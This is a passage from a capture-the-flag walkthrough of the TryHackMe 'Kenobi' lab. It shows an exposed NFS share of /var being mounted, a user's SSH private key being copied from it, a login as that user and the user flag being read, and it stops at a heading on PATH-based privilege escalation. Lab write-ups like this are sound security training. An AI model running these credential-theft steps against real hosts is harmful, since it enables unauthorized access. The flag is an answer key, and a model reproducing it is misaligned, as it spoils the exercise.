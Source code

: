 `No answer needed`

5. Lets mount the /var/tmp directory to our machine

`mkdir /mnt/kenobiNFS`

`sudo mount 10.10.222.46:/var /mnt/kenobiNFS`

`ls -la /mnt/kenobiNFS`

![](https://i.imgur.com/v8Ln4fu.png)

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

![](https://i.imgur.com/Vy4KkEl.png)

What is Kenobi's user flag (/home/kenobi/user.txt)?

```
bibo318@parrot:~/CTFs/tryhackme/Kenobi$ cp /mnt/kenobiNFS/tmp/id_rsa .
bibo318@parrot:~/CTFs/tryhackme/Kenobi$ chmod 600 id_rsa
bibo318@parrot:~/CTFs/tryhackme/Kenobi$ ssh -i id_rsa kenobi@10.10.222.46
The authenticity of host '10.10.222.46 (10.10.222.46)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.222.46' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
kenobi@kenobi:~$
```

`d0b0f3f53b6caa532a83915e19224899`

## Privilege Escalation with Path Variable Manipulati

![](https://i.imgur.com/LN2uOCJ.png)
